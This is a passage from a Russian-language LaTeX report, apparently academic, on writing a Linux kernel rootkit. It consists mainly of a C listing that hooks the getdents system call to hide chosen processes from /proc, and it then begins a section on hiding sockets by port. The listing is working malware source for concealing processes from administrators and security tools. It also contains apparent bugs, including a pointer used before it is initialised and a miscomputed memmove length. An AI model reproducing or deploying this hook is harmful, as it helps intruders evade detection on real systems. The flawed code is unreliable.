 \begin{lstlisting}[label=lst:a3, caption={Перехват getdents}, language=c]    
KHOOK_EXT(long, __x64_sys_getdents, const struct pt_regs *);
static long khook___x64_sys_getdents(const struct pt_regs *pt_regs) {
    int fd; 
    long ret;
    long off = 0;

    struct inode *d_inode;
    struct linux_dirent *dirent, *kdirent, *dirent_var, *dirent_prev;

    fd = (int)pt_regs->di;
    dirent = (struct linux_dirent *)pt_regs->si;

    ret = KHOOK_ORIGIN(__x64_sys_getdents, pt_regs);
    if (ret <= 0)
        return ret;

    d_inode =
        current->files->fdt->fd[fd]->f_path.dentry->d_inode;
    if (d_inode->i_ino != PROC_ROOT_INO)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (!kdirent)
        return ret;

    if (copy_from_user(kdirent, dirent, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (off < ret) {
        dirent_var = (void *)kdirent + off;

        if (is_invisible_pid(str_to_pid(dirent_var->d_name))) {
            if (!dirent_prev) { // <==> if (dirent_var == kdirent)
                memmove(
                    dirent_var, (void *)dirent_var + dirent_var->d_reclen, ret
                );
                ret -= dirent_var->d_reclen;
            }
            else {
                dirent_prev->d_reclen += dirent_var->d_reclen;
                off += dirent_var->d_reclen;
            }
        }
        else {
            dirent_prev = dirent_var;
            off += dirent_var->d_reclen;
        }
    }

    copy_to_user(dirent, kdirent, ret);
    kfree(kdirent);
    return ret;
}
\end{lstlisting}


\section{Сокрытие и отображение сокетов}

Сетевые сокеты скрываются по номеру порта. Определённые в листинге 3.5 функции управляют
содержимым списка в котором хранятся порты.
\\

